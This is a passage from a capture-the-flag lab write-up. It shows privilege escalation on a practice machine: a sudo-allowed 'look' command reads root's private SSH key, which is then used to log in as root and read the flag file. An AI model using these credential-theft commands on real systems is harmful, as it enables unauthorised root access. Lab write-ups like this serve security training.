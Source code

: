 ```sh
sudo /usr/bin/look '' "/root/.ssh/id_rsa"
```

### Root Access via SSH Key
Save key to file:
```sh
gedit id_rsa
chmod 600 id_rsa
ssh -i id_rsa root@lookup.thm
```
> A key in PEM format like this one, has to have an empty line at the end.
{: .prompt-tip }

```sh
root@ip-10-10-99-50:~# id
uid=0(root) gid=0(root) groups=0(root)
```
Capture the Flag
```sh
cat root.txt
```

<div class="gif-container">
<img src="/gifs/labubu.gif" alt="GIF" class="gif-responsive">
</div>

---

<style>
img {
  transition: all 0.3s ease;
}
